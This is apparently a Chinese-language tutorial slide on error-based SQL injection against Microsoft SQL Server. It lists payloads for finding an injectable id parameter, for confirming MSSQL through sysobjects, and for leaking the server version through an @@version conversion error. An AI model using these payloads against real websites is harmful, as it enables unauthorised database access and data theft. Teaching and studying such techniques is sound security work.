

MSSql报错注入
MSSql报错注入的过程
1、判断注入点：
语句：[ id=1' ]
           [ id=1 and 1=1 ]  返回正常
           [ id=1 and 1=2 ]  返回错误

2、判断是否为MSSQL数据库：
语句：[ id=1 and exists(select * from sysobjects)]  返回正常为mssql
           [ id=1 and exists (select count(*) from sysobjects)]用法和上面的相同

3、判断数据库版本号：
语句：[ id=1  and @@version>0 ]
说明：＠＠version是mssql 的全局变量，如果我们把它写成这样 and @@version>0 那个后面的mssql就会强行@@version 强行转换成数字但是失败，所以就会将数据库信息暴露出来
版本号：nt5.2：win2003    nt6.0：win2008